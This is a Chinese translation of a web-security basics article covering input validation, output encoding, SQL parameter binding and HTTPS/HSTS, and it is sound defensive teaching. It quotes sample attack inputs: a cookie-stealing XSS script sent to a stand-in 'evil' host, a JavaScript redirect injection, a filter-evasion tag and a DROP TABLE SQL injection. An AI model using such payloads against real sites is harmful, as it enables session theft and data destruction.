

<!DOCTYPE html>
<html class='no-js' lang="zh-cn">
  <head>
    <title>安全基础</title>
    <meta http-equiv="x-ua-compatible" content="IE=edge">
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <meta name="robots" content="index, follow">
    <link rel='shortcut icon' href='@@assets/imgs/favicon.ico' type='image/x-icon'>
    <link rel="stylesheet" type="text/css" href="assets/css/lib/bootstrap.min.css">
    <link rel="stylesheet" href="assets/css/homepage.css"/>
      <script>
          (function(H){H.className=H.className.replace(/\bno-js\b/,'js')})(document.documentElement);
      </script>

      <script>
          window.HB = window.HB || {};
          window.HB.pageData = {
              name: "hb:buy:homepage",
              channel: "buy",
              agentNameAutoSuggestionURL: "http://www.test.com/suggest.ds",
              autoSuggestionURL: "http://suggest.com/smart-suggest"
          };
      </script>
      <script src="assets/js/lib/boilerplate.js"></script>
  </head>
  <![if !IE]> <body class="buy"> <![endif]>

    <nav class="navbar navbar-inverse navbar-fixed-top" role="navigation">
        <div class="container">
            <!-- Brand and toggle get grouped for better mobile display -->
            <div class="navbar-header">
                <button type="button" class="navbar-toggle" data-toggle="collapse" data-target="#bs-example-navbar-collapse-1">
                    <span class="sr-only">Toggle navigation</span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" href="/index.htm">ICoding</a>
            </div>
            <!-- Collect the nav links, forms, and other content for toggling -->
            <div class="collapse navbar-collapse" id="bs-example-navbar-collapse-1">
                <ul class="nav navbar-nav navbar-right">
                    <li>
                        <a href="/agile.html">敏捷实践</a>
                    </li>
                    <li>
                        <a href="/safe.html">网络安全</a>
                    </li>
                    <li class="dropdown">
                        <a href="#" class="dropdown-toggle" data-toggle="dropdown">测试 <b class="caret"></b></a>
                        <ul class="dropdown-menu">
                            <li>
                                <a href="/test.html">单元测试</a>
                            </li>
                            <li>
                                <a href="/ftest.html">功能测试</a>
                            </li>
                        </ul>
                    </li>
                    <li class="dropdown">
                        <a href="#" class="dropdown-toggle" data-toggle="dropdown">前后端分离 <b class="caret"></b></a>
                        <ul class="dropdown-menu">
                            <li>
                                <a href="/frontend.html">前端架构</a>
                            </li>
                            <li>
                                <a href="/backend.html">后端架构</a>
                            </li>
                            <li>
                                <a href="/authentication.html">基于前后端分离的认证</a>
                            </li>
                        </ul>
                    </li>
                    <li class="dropdown">
                        <a href="#" class="dropdown-toggle" data-toggle="dropdown">Server less <b class="caret"></b></a>
                        <ul class="dropdown-menu">
                            <li>
                                <a href="/">未来无服务架构</a>
                            </li>
                        </ul>
                    </li>
                </ul>
            </div>
        </div>
    </nav>

    
<a href="http://martinfowler.com/articles/web-security-basics.html#AuthenticateUsersSafely">原文: http://martinfowler.com/articles/web-security-basics.html#AuthenticateUsersSafely</a>
<section class="safe-container">
<pre>
<h1>Web应用安全基础</h1>
现代web开发面临诸多挑战，安全的重要性一直被视为是重中之重。威胁分析技术日益被认为是一些大型项目的必要考虑，有一些基础的安全练习是每个程序员需要也理所应当要做的。

现代软件开发者必须要成为一把瑞士军刀，当然，你还必须能写出满足用户需求的代码，还要快。进一步你的代码还需要满足易读性和可扩展性：充分的灵活性是为了IT需求变化的天性，但是需要保证系统的健壮性。另外你还需要创建一套用户接口，优化数据库，和创建一个用户持续发布的管道。这些事情你应该已经在昨天就已经完成了。

在一些公司，安全被列在需求列表的最底部，在此之上，更快的系统，更低的成本，和灵活的系统被视为“安全”。因此，直到事情变坏，直到你不得不对系统妥协，这时你才意识到安全一直以来都是最重要的事。

安全问题应该像性能问题一样被跨职能，跨部门关注。但是又有一点不像性能问题，类似性能问题的是，我们的业务主管明明知道他们需要安全，但是又经常无法量化它，不像性能的是，当他们遇见安全问题之前无法知道系统是否足够安全。

所以，一个程序员在一个模糊的安全需求和对威胁的未知下怎么才能愉快的工作呢？那么定义这些安全考虑和威胁预言是非常值得做的事情，但是这需要时间和人民币。大多数时间软件开发者都在没有特定安全要求下工作而他们的公司在设法找到引入安全担忧到需求制定阶段。

在持续的发布中，我们需要：
1. 指出web应用的公共区域开发者需要特别注意的安全风险。
2.对一般技术栈中存在的每个风险给出指导性建议。
3.突出开发者经常犯的错误，并且预防再次发生。

安全是一个任重而道远的标题，即使我们只谈B/S架构中的安全问题，这些文章会比你之前看到的“你必须知道的所有安全问题”这种大而全书籍文章更好。但是我们仅仅希望通过这篇文章带给每个试图在安全领域有所作为的程序员一个方向。

<h2>信任</h2>

输入和输出就像螺母和螺栓一样，这非常值得一提的是作为最重要之一的安全基础原则：信任。我们必须问问自己：我们是否相信来自用户浏览器的每次请求？（当然不）。上游服务是否给我们提供了干净和安全的数据？（才不会），我们是否相信用户浏览器和我们服务器之前的连接不会被篡改？（不一定）。我们是否应该相信我们赖以生存的服务和数据存储（应该吧）

当然，安全和信任不是非黑即白，我们需要评估一下风险承受力，数据临界值，我们需要投资风险管理来保证可以安然入睡。为了做到这一点，我们或许需要经历风险建模，不过这是另外一门学科。那么现在，开心的说我们会给出一系列我们系统确定面临的风险，我们将不得不对这些威胁做出应对。

<h2>拒绝意外的输入</h2>

HTML 表单可以创建控制输入的假象。表单的作者或许相信因为对用户输入类型的限制会保证数据接收验证，不过放心，这不过是一个错觉，客户端javascript提供数据验证从安全角度看来毫无价值。

不信任的输入

对我们的信任来说，数据来自用户浏览器，不管是不是我们提供的表单，不管连接是否是HTTPS，信任值都应该是0. 用户可以在发送前很简单就可以篡改表单标记，或者使用命令行像curl 来提交不信任数据。也可能一个用户在完全无知的状态下提交一个被其他网站篡改过的表单。Origin Policy 并不能避免恶意网站在你提交后进行的篡改。为了确保入口数据的正确性，验证需要在服务端来做。

但是为什么异常数据会造成安全隐患？取决于你的应用逻辑和页面输出编码，这可能造成意外性行为，数据泄露，或者给攻击者提供使用可执行代码破坏边界验证。

举个例子，想象我们提供一个带radio的表单让用户提供一些沟通信息，我们的代码通过这些值来控制应用逻辑
final String communicationType = req.getParameter("communicationType");
if ("email".equals(communicationType)) {
    sendByEmail();
} else if ("text".equals(communicationType)) {
    sendByText();
} else {
    sendError(resp, format("Can't send by type %s", communicationType));
}

这段代码有没有问题取决于sendError 方法是怎么实现的。我们认为下游的服务应该不相信上游服务返回值的正确性，可谁知道呢，如果能够完全消除意外的控制流就更好了。
所以什么可以让一个开发者最小化造成不良影响的非信任危险数据，添加输入验证。


<h3>输入验证</h3>

输入验证是确定输入数据与系统期待数据保持一致性的过程。数据如果在期待之外会造成未知结果，比如，违背业务逻辑，触发错误，甚至允许攻击者得到应用的控制权。用户输入如果作为可执行代码在服务器端执行，例如一个数据查询语句，或者作为html中的javascript执行在客户端是非常危险的，验证输入是防御风险的重中之重。

开发者经常会在构建系统的过程中添加一些基础的输入验证，比如：确定一个值是非空或者整形为正数。想象一下怎么进一步限制输入为逻辑允许值是减少遭受攻击今后需要做的。

输入验证更有效的做法是限制到一个小集合内，数字限制为特定区间，比如，用户不可能转账负值或者添加成千上万的商品到购物车。这种限制只能输入接受值得策略被称为正向验证或白名单。一个白名单可以限制一个特定表单的特殊字符串必须是一个URL或时间格式“yyyy/mm/dd”。即可以是限制输入长度，也可以是只接受制定编码格式，再或者只能根据你表达你允许的方式提供数据。

另外一种验证输入的方式是利用契约设计强制你的表单处理代码是由消费者指定的，任何违反契约视为不合法，你的契约越严格，越积极强制执行，你的应用程序就出现意外安全漏洞的几率就越低。

你应该明确如果输入值没有通过验证的处理方式。最严格的也是最可取的是完全拒绝并不提供反馈，然后确保这个事情被记录下来，但是为什么不提供反馈？我们不是要提供给用户有用的信息来告诉他数据不合法吗？ 它只是你的契约上的一小部分。在上面的例子中，如果你收到一些除email或文本之外的信息，就会发生一些有趣的事情：你要么有bug，要么被攻击了。再进一步，反馈机制有时会被攻击利用，想象一下如果sendError方法返回错误代码如下：“我们不能处理“communicationType”的请求”，如果communicationType被攻击者当做“信鸽”利用像这样：&lt;script&gt;new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie&lt;/script&gt;
此时你正在遭受XSS攻击来盗取你的cookie。如果你必须提供反馈机制，你最好返回固定的不包括用户数据的文字。比如：“you must choose email or text”，如果你真的必须要在你的提示信息中加入用户输入的数据的话，请确保这些文字被编码


<h3>实践</h3>

你可以使用过滤&lt;script&gt;标签的方式避免攻击，拒绝输入包含未知危险值应作为一个策略称为负面验证或黑名单。这种做法的问题在于错误的输入太多了。管理一个危险输入的集合太花时间太花精力，而且还要定期维护。但是有时候这是你的想法，比如在自由输入的表单中，如果你必须要创建黑名单，非常小心的覆盖每种情况，写了测试，尽可能的严格检查，并引用 OWASP的文章 XSS Filter Evasion Cheat Sheet 去学习攻击者规避保护的常用方法。

过滤掉非法数据，这种实践通常被称为“消毒”。实际上就是用一个黑名单来去除非法输入而不是拒绝它。就像其他黑名单一样，这种方法很难做的很好也可能给攻击者提供攻破的可能。比如，想象一下，你选择去掉所有&lt;script&gt;标签。一个攻击者可以这么干<scr&lt;script&gt;ipt>。
即使你的黑名单捕获了一次攻击，想要修复他，你必须重现这种攻击方式。

输入验证方法被很多现在的类库支持，如果没有，可以找一些三方类库来作为每一列应用多重约束规则。应该提供通用内置验证比如email，信用卡。使用框架提供的验证来在程序边界额外添加验证逻辑，因为，非法数据最好在还没有到达最关键的应用程序就被挡住

<table class="input-validation-approaches">
<thead><tr><th>Framework</th><th>Approaches</th></tr></thead>

<tbody>
<tr class="even first"><td rowspan="2">Java</td><td>Hibernate (Bean Validation)</td></tr>

<tr class="even"><td>ESAPI</td></tr>

<tr class="odd first"><td rowspan="2">Spring</td><td>Built-in type safe params in Controller</td></tr>

<tr class="odd"><td>Built-in Validator interface (Bean Validation)</td></tr>

<tr class="even first"><td rowspan="1">Ruby on Rails</td><td>Built-in Active Record Validators</td></tr>

<tr class="odd first"><td rowspan="1">ASP.NET</td><td>Built-in Validation (see BaseValidator)</td></tr>

<tr class="even first"><td rowspan="1">Play</td><td>Built-in Validator</td></tr>

<tr class="odd first"><td rowspan="1">Generic JavaScript</td><td>xss-filters</td></tr>

<tr class="even first"><td rowspan="1">NodeJS</td><td>validator-js</td></tr>

<tr class="odd first"><td rowspan="1">General</td><td>Regex-based validation on application inputs</td></tr>
</tbody>
</table>

<h3>小结</h3>
#创建白名单
#当你不能使用白名单时使用黑名单
#让你的契约最后严格
#务必对可能的攻击警惕
#避免在错误提示中带有用户输入
#在没有到达业务逻辑时阻止网站内容生成来最小化的阻止危险数据入侵，或更好的方式使用你的框架白名单控制输入。

<h2>HTML编码输出</h2>

除了限制数据进入系统，Web应用开发者需要付出一样的关心在数据输出。一个现代web应用一般基于HTML输出文本，CSS输出样式，javascript处理业务逻辑，用户生成内容可能是它们之中的任何一个，都是文本。他将呈现到一个相同的文档中。

一个HTML文档是一个嵌套的可执行标签，就像&lt;script&gt;,&lt;style&gt;。开发者使用相同的超文本在不同环境下去执行。这是相当复杂的当你有额外特定上下文需要嵌入执行上下文中的时候，比如，HTML和javascript都可以包含一个URL，但各有各的规则。

<h3>输出风险</h3>

HTML对格式化非常非常宽容。浏览器会尽力的渲染页面即使代码异常。这对程序员来说非常友好即使你的标签缺少尖括号程序也不会崩溃，然而，这种渲染错误标签是一个很大的漏洞。攻击者会注入大量内容来突破执行上下文，甚至不用担心页面是否有效。
处理正确的输出严格说不是一个安全考虑。应用程序从数据库，或上游服务渲染页面需要确定内容不会导致程序崩溃，但是如果使用不被信任的数据源来渲染页面会带来风险。上面提到过，开发者应当决绝不在契约内的输入值，那么如果系统允许输入存在风险的字符就像 ‘ ，< 该怎么办? 这就是为什么需要输出编码。

<h3>输出编码</h3>

输出编码是对传出数据做最终编码。麻烦的是需要根据数据的不同的消费方式做不同的编码处理。如果不做适当的输出编码，应用程序应会提供给客户端不可用的数据，或者有风险的数据。攻击者对于不当的编码的一个潜在漏洞或许可以让他们从根本上改变程序员输出意图的结构。
举个例子，想象一下如果系统的顾客是最高法院的法官桑德拉，如果他的名字渲染到HTML中会发生什么？
<p>The Honorable Justice Sandra Day O'Connor</p>

renders as:

The Honorable Justice Sandra Day O'Connor

一起都没有问题，页面会按我们的期望生成，但是这可能是一个帅气的动态前段MVC架构，这些字符串是由javascript生成的，如果代码是这样的会发生什么？
document.getElementById('name').innerText = 'Sandra Day O'Connor' //<--unescaped string
这真是攻击者寻找攻击的对象，攻击者可以将无辜的数据转化为可执行代码，如果法官输入他的名字：Sandra Day O';window.location='http://evil.com/';这是我们的用户会被重定向到魔鬼网站，如果我们对输出进行编码，那么文本会变成：’Sandra Day O\';window.location=\'http://evil.martinfowler.com/\';'虽然会有点摸不着头脑，但是这是无害的非执行字符串。注意，有很多策略可以编码javascript。可以使用反斜杠来代表单引号 \’,但是也可以使用安全的unicode来编码&#039；
好消息是绝大部分web框架都有渲染机制来安全的转义保留字符，坏消息是这些框架也可以不启动保护机制，大多数程序员使用它不知道是出于无知还是因为他们依赖这种机制来加载他们认为安全的可执行代码来渲染页面。

<h3>注意事项</h3>

现在有很多工具和类库和编码上下文（比如html，xml，javascript，pdf，css，sql）创建一个完整列表不可能，然而，下面是应该用什么来避免使用通用类库编码HTML的开始。

如果你正在使用其他类库，检查一下安全输出编码方法的文档。如果这些类库不支持他们，请考虑使用其他支持的，或者你可以自己来实现它。还要注意，如果一个类库可以安全的渲染HTML，那并不代表它可以安全的渲染javascript 和PDF。你必须清楚的知道各种编码工具各自的用途。

提醒一下，你可能希望得到用户原本的输入值，然后编码存储。这种做法通常会受伤害。如果你使用HTML编码来存储，那么如果你需要渲染为其他格式，你需要先解码HTML编码，然后再编码成新的格式。这会给开发人员编写解码程序带来很大的复杂度，来使得所有的上游输入正确编码输出。你最好可以关闭数据的原始形式，在渲染的时候编码它们。
最后，值得注意的是嵌套的渲染上下文会增加很大的复杂性应当尽可能的避免。你很难让每一行输出都正确，但是当你渲染一个URL，包含javascript的HTML，你对每一个单词应该有三种背景担心。如果你真的不能避免嵌套背景，确保分解问题在不同的阶段，通过每个阶段的测试，要特别注意渲染顺序。OWASP为这些情况提供一些指导DOM based XSS Prevention Cheat Sheet
aritle url: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
framework: https://github.com/chrisisbeef/jquery-encoder


<table class="output-encoding-tools">
<thead><tr><th>Framework</th><th>Encoded</th><th>Dangerous</th></tr></thead>

<tbody><tr><td>Generic JS</td><td>innerText</td><td>innerHTML</td></tr>

<tr><td>JQuery</td><td>text()</td><td>html()</td></tr>

<tr><td>HandleBars</td><td></td><td></td></tr>

<tr><td>ERB</td><td>&lt;%= variable %&gt;</td><td>raw(variable)</td></tr>

<tr><td>JSP</td><td>&lt;c:out value="${variable}"&gt; <i>or</i> ${fn:escapeXml(variable)}</td><td>${variable}</td></tr>

<tr><td>Thymeleaf</td><td>th:text="${variable}"</td><td>th:utext="${variable}"</td></tr>

<tr><td>Freemarker</td><td>${variable} (in escape directive)</td><td>&lt;#noescape&gt; <i>or</i> ${variable} without an escape directive</td></tr>

<tr><td>Angular</td><td>ng-bind</td><td>ng-bind-html (pre 1.2 and when sceProvider is disabled)</td></tr>
</tbody></table>

<h3>小结</h3>
#所有的应用程序数据应当采取适当的编码器进行输出编码
#使用类库自带的输出编码功能，如果有的话。
#尽量避免嵌套渲染上下文
#存储元数据，在渲染时再编码
#不采用不安全的类库以及使用javascript调用避免编码

<h2>数据库查询绑定参数</h2>

如果你在使用关系型数据库，使用对象关系映射类库，或者查询nosql数据库，你可能需要为在你的查询语句中怎么使用输入数据而担心。
数据库一般被视为最重要的部分在web应用开发中，因为他的状态很难恢复。它可能包含关键，敏感的用户信息。这些数据是系统运营的关键。所以你肯定希望开发者操作时非常小心，如果一旦被注入操作攻击了数据库层就会爆发整个系统的灾难，但是我们可以相对简单的去预防。

说到参数绑定就不得不讨论“little bobby tables”


来分解一下这个喜剧，想象系统的责任是给年级添加一个新学生：
void addStudent(String lastName, String firstName) {
    String query = "INSERT INTO students (last_name, first_name) VALUES ('"
            + lastName + "', '" + firstName + "')";
    getConnection().createStatement().execute(query);
}
实际上执行了两条命令：
INSERT INTO students (last_name, first_name) VALUES ('XKCD', 'Robert')

DROP TABLE Students

最后的“- -”注释掉剩余的查询语句，确保sql语法正确。drop语句被执行了。这种攻击方式可以执行任意的sql语句在应用的数据库层。换句话说，攻击者获取任何他想要的敏感数据。稍后我们需要讨论定义不同用户作为第二道防线来防御这种错误。但是现在，我很高兴的说有一种很简单的应用层面策略来最小化这种注入的风险。

<h3>参数绑定拯救</h3>

我们来看看黑客妈妈给出的解决方案，对输入“消毒”是非常困难的，这样同时也会创建新的潜在攻击风险。你应该采用的正确方法是参数绑定。JDBC，提供PreparedStatement.setXXX()方法来绑定，参数绑定的宗旨是提供一个分离执行代码，就像下面代码中那样sql明显的处理了encoding和escaping。

任何的功能完成的数据访问层都应当绑定参数和延迟执行基础协议，使用这种方法，开发者不需要了解复杂的从合成语句到执行的过程。这么做的基础是需要规划非信任数据的范围。如果sql不要拼接，级联和格式化那么就不需要从用户输入创建目标字符串。

<h3>Clean和安全的代码</h3>

有时我们会介于安全和Clean之间。安全有时需要开发者添加复杂性来保护应用，对于这种情况，好的安全和好的设计都应该考虑到。此外保护应用远离注入，使用简洁的参数绑定来提高代码可读性，并简化使用去除需要手动单引号创建sql的方式。
正如使用参数绑定来替代手动格式化sql语句，你应该找到一个通用的绑定方法类库，进一步提升代码的cleanliness和安全性。这凸显了良好的设计和良好的安全是不分家的：重复数据删除技术会导致额外的测试，但是减少复杂性。

<h3>一般性误解</h3>

有一种错误的说法是可以使用存储过程来预防sql注入，但是这取决于参数在存储过程中的绑定方式，如果你在存储过程中拼接参数一样可以被注入，在客户端绑定参数也救不了你。
同样，关系型映射类库就像ActiveRecore，Hibernate或者.NET EF，除非你使用绑定功能否则不会提供保护。如果你使用非信任用户输入绑定你的查询语句而不用类库提供的绑定，你的应用仍然有注入攻击的风险。
如果想看更多存储过程或ORMs注入风险，请看这篇关于安全分析的文章 Stored procedures and ORMs won’t save you from SQL injection url：https://www.troyhunt.com/stored-procedures-and-orms-wont-save/
        最后，关于nosql不易被注入攻击的说法是不正确的。所有的查询语句，sql或其他，需要在可执行语句和有参数混入的语句中有明确的界限。攻击者在寻找这种运行时的边界情况，从而使用用户输入数据来改变执行方式。即使使用了二进制通信协议和特定语言API的mongodb也只能一定意义上减少基于文本注入方式的攻击，暴露$where运算符就会容易注入，正如OWASP测试中提到的文章所说。底线是你需要检查数据存储和安全的处理用户输入数据。

参数绑定方法
在下列表格中检查你选择的数据存储的参数绑定方法


<table class="db-param-functions">
<thead><tr><th>Framework</th><th>Encoded</th><th>Dangerous</th></tr></thead>

<tbody><tr><td>Raw JDBC</td><td><code>Connection.prepareStatement()</code> used with <code>setXXX()</code>
      methods and bound parameters for all input.</td><td>Any query or update method called with string concatenation rather than
        binding.</td></tr>

<tr><td>PHP / MySQLi</td><td><code>prepare()</code> used with bind_param for all input.</td><td>Any query or update method called with string concatenation rather than binding.</td></tr>

<tr><td>MongoDB</td><td>Basic CRUD operations such as find(),  insert(), with BSON document field names controlled by application.</td><td>Operations, including find, when field names are allowed to be determined by untrusted data or use of Mongo operations such as "$where" that allow arbitrary JavaScript conditions.</td></tr>

<tr><td>Cassandra</td><td>Session.prepare used with BoundStatement and bound parameters for all input.</td><td>Any query or update method called with string concatenation rather than binding.</td></tr>

<tr><td>Hibernate / JPA</td><td>Use SQL or JPQL/OQL with bound parameters via setParameter</td><td>Any query or update method called with string concatenation rather than binding.</td></tr>

<tr><td>ActiveRecord</td><td>
        Condition functions (find_by, where) if used with hashes or bound parameters, eg:

<pre>where (foo: bar)
where ("foo = ?", bar) </pre>
</td><td>
        Condition functions used with string concatenation or interpolation:

<pre>where("foo = '#{bar}'")
where("foo = '" + bar + "'") </pre>
</td></tr>
</tbody></table>


<h3>小结</h3>
#避免直接从用户输入创建sql语句
#对所有查询和存储过程使用绑定语句
#使用本地驱动绑定方法而不是自己去处理编码
#不要觉得存储过程或ORM工具可以挽救你，你需要使用绑定方法
#nosql不会让你免注入


<h2>在传输中保护数据</h2>

当我们关注输入和输出同时，还有另外一个重要的考虑：在数据传输中要确保隐私和正确。当使用原生http连接，用户将被暴露在诸多来自数据文本传输的风险。一个攻击者能够在用户浏览器到服务器之间的任意地方拦截，监听或者篡改网络流量，这种方式叫中间人攻击。无法想象攻击者会做什么，可能窃取用户会话或个人信息，注入恶意代码执行在用户的网页中，或修改用户发送的信息到服务器。
我们无法控制用户使用的网络，他们有可能使用了一个任何人都很容易窥探的网络，就像在机场咖啡厅没有密码的免费网络，或连接黑客准备的免费wifi，也可能被运营商注入广告到他们打开的网页中。
如果一个攻击者可以监听一个或篡改用户的网络流量，全盘皆输。数据交换完全不可信任，幸运的是，我们可以保护使用HTTPS规避这个风险。

<h3>HTTPS和传输层安全协议</h3>

HTTPS本意作为处理安全级别高的网络传输就像金融行为，但是现在已被广泛的用在我们常用的类似社交网络和搜索引擎中。HTTPS协议使用TLS协议，是secure socket layer的下一代技术，主要是为了安全通信。如果配置和用法正确，他可以提供防止监听和篡改，也就是中间人攻击。可以合理保障安全是一个网站别使用的原因。或者在更多方面，它通过网站身份验证提供保密性和数据完整性。

由于面临许多风险，对所有的网络流量敏感和加密变得越来越有意义，网络流量应该基于HTTPS。一些浏览器声明准备弃用非安全HTTP或使用视觉手段提醒用户并没有基于HTTPS。绝大多数支持HTTP/2的浏览器只会保证连接基于TLS。那么为什么我们不能全部都使用它呢？

现在有一些障碍阻碍采用HTTPS，很长的一段时间，人们认为给所有流量使用它会付出更多的计算代价，但是对现代的硬件计算能力来说这不算什么。SSL协议和早版本TLS协议只保证一个网站证书绑定一个IP。但是这个限制在大部分浏览器支持的叫SNI（server name indication）的TLS协议扩展中去去掉。通过付费从证书颁发机构拿到证书也阻碍着被采用，但是免费加密服务比如Let‘s Encrypt消除了障碍。今天的障碍要比之前都少。

<h3>获取服务器证书</h3>
验证一个网站支持TLS安全能力，如果没有这个证书来证明这个网站是真实的，一个攻击者可以使用中间人攻击模拟网站和破坏其他保护协议。
一旦使用TLS，一个网站通过公钥证明他的身份。这种证书包含该网站沿用一个证明网站所有者证书的公钥，这其中使用相应的私钥只有它知道。在一些系统中一个客户端也许也需要使用一个证书去证明他的身份，在今天看来这种做法相对罕见是因为管理客户端证书非常复杂。
除非站点证书预先已知，那么客户端需要验证证书合法性。这需要基于一个信任模型，在浏览器和其他应用中，被信任的第三方被称为证书颁发机构（CA）主要来验证网站身份，有时验证拥有它的组织，然后颁发一个签字证书来证明这个网站被验证过。
如果证书已经提前分享到其他渠道来证明已知就不需要引入一个被信任的第三方机构。几个例子，一个手机应用或其他应用的证书或信息来自一个用户颁发机构的分发，那么会验证网站的身份。这种做法被称为certificate or public key pinning。
很多浏览器显示最关键的安全提示就是当你和一个网站通信时使用HTTPS和证书可信。如果没有证书，浏览器将会显示一个关于证书的警告来预防用户浏览网站，所以从一个信任的证书颁发机构获取证书很重要。
你可以生成你自己的证书来测试HTTPS 配置生效，但是在你发布服务之前需要一个可信任的CA签名。对于大多数用户，一个免费的CA是一个好的开始，当你搜索一个CA时，你会遇到提供不同级别的证书。最基本的，域验证（DV）证书所有者控制一个域名。更贵的选择是组织验证（OV）和扩展验证（EV）涉及到的CA会做额外的检查来验证组织申请证书。尽管更高级的选项预示着在浏览器中更安全，但它可能不代表值得花那么多钱。

<h3>配置你的服务器</h3>
你手上有了证书，你就可以开始配置你的服务器支持HTTPS了，乍一看，这也许需要一个加密学博士来做这个工作。你可能希望选一个配置来支持多种的浏览器版本，那么你就需要在高安全性和高性能之中权衡。
一个网站提供的加密算法和协议版本会对它提供的安全通信级别带来强烈的冲击。一些很有名气的攻击例如FREAK ，DROWN， POODLE向我们揭示过期的协议版本和算法的浏览器被欺骗的风险在对安全考虑的少的服务器中被攻击会变得很容易。计算能力的进步和我们对数学基础算法的理解会变的更加不安全。我们怎么平衡坚持最新版本和确保我们的网页可以兼容低版本浏览器和旧版本协议和算法？
幸运的是，有很多工具让我们的选择轻松了很多。mozila使用一个SSL 配置向导来针对大部分web服务器生成建议的配置，另外根据补充的 Server Side TLS Guide来介绍更多细节。
注意配置生成器提到默认打开浏览器的HSTS功能，如果你准备承诺对长连接使用HTTPS会带来问题。后面会详细说。


<h3>任何情况都使用HTTPS</h3>

很容易看到一些网站只它的服务中的一些资源，保护仅仅在一些敏感的表单提交。其他可能只是被用于敏感资源中，举个例子：一个用户在登录后会做什么。偶尔你会发现一些发布安全文章的网站，他们的服务器并没有更新配置-但是他们马上就会去做，我承诺！
在前面的叙述中一些没有使用HTTPS的服务仍然存在一些风险问题。比如，一个攻击者使用中间人攻击可以轻松通过HTTP协议修改表单中的敏感信息。如果一个攻击者注入可执行代码那么会执行在我们的网页上，这不会发生在HTTPS上。只有所有服务都使用HTTPS才能避免这些风险。
这个解决方案并不是对所有资源干脆直接打开HTTPS开关。浏览器默认使用http当没有敲入https的时候。所以，简单的关闭http端口是不行的。将所有的http请求转换成https请求也许不是理想解决方案，但是确实最适合现在的。
对于能够被浏览器访问的资源，使用策略来重定向所有http到https是第一步。比如，apache 重定向所有请求可以很简单的通过几行代码做到。
# Redirect requests to /content to use HTTPS (mod_rewrite is required)
RewriteEngine On
RewriteCond %{HTTPS} != on [NC]
RewriteCond %{REQUEST_URI} ^/content(/.*)?
RewriteRule ^ https://%{SERVER_NAME}%{REQUEST_URI} [R,L]
        如果你的站点提供基于http的API服务，使用HTTPS是更慎重的做法。不是所有的API客户端可以重定向，这种情况可以跟你的API消费者商量一个切换HTTPS的最后时间，然后切断HTTP，当使用HTTP访问时返回一个错误信息。

<h3>使用HSTS</h3>

重定向用户从HTTP到HTTPS具备原生HTTP的其他请求一样具有风险。为了应对这一挑战，现代浏览器支持强大的安全功能HSTS（HTTP Strict Transport Security），允许网站请求在浏览器端只支持HTTPS。这在2009年被第一次建议使用来应对SSL 剥离攻击，证明了HTTP服务内容的危险。可以在header添加一句话来支持Strict-Transport-Security: max-age=15768000
这个头部代码指示浏览器只在HTTPS下交互，为期六个月。HSTS是一个重要的功能来强制实施HTTPS。一旦打开，浏览器会自动转换不安全的HTTP请求到HTTPS代替，即使用户明确的输入http://到地址栏。他还会指示浏览器禁止绕过不合法证书的请求。
        在浏览器端需要做一些努力来开启，开启HSTS在服务端添加一行配置就可以，比如在apache中在Header中添加443端口配置就可以。
<VirtualHost *:443>
...

# HSTS (mod_headers is required) (15768000 seconds = 6 months)
Header always set Strict-Transport-Security "max-age=15768000"
</VirtualHost>

现在你应该对HTTP固有的风险有所了解，你也许会摸不着头脑在HSTS开启之前，一个请求通过HTTP到达服务端都经理了什么。为了解决这个风险，一些浏览器支持网站被添加HSTS预加载列表，只要被引入这个列表就绝不可能通过HTTP访问。即使第一次与网站交互。

在决定使用HSTS之前，一些潜在挑战必须先考虑。大多数浏览器会拒绝加载嵌入在HTTPS中的HTTP内容，所以升级现有资源来确保所有资源可以在HTTPS下访问。我们一般并不能控制外部系统的内容，比如广告，这可能需要我们和外部用户一起努力去采用HTTPS，或者我们需要临时引入一个代理来处理这些内容到HTTPS直到外部系统升级。
一旦HTST被启用，它将不会被关闭直到你设定在header中的时间过期。明智的做法是在你确保HTTPS工作之前不要打开HSTS。从HSTS预加载列表中删除域会花很长时间。不要轻易的把你的网站添加到预加载列表中。
不幸的是，不是所有的浏览器都支持HSTS，所以这种方法并不能确保对所有用户起效，还需要使用在文章中提到的其他方法来重定向HTTP到HTTPS，你可以在caniuse网站中查看HSTS的浏览器支持情况。

<h3>保护Cookies</h3>
浏览器有内置安全模块来避免泄露cookie中的敏感信息。设定cookie中的secure开关可确保浏览器只通过HTTPS发送cookie。这是非常重要的保护手段即使HSTS已经被打开。

<h3>其他风险</h3>

还有其他风险要留意，即使使用HTTPS敏感信息仍然会意外泄露。
如果将敏感信息加载在URL中是危险的。这样做的风险是URL会缓存在浏览器历史里，更何况他会被记录在服务端的日志中。如果URL包含了外链那么当用户点击时，敏感信息会被泄露到Referer Header中。
此外，敏感信息也许会被缓存在客户端，或中间服务器如果浏览器设置使用它们来检查HTTPS流量。对于原生用户来说流量不会被代理看到，但是我们常见有一些企业在它们雇员的系统上安装了客户CA以减少威胁以及监控合法流量。在头部添加禁止caching来减少通过缓存泄露数据的风险。
我们应该做这些，OWASP Transport Protection Layer Cheat Sheet URL：https://www.owasp.org/index.php/Transport_Layer_Protection_Cheat_Sheet

<h3>验证你的配置</h3>
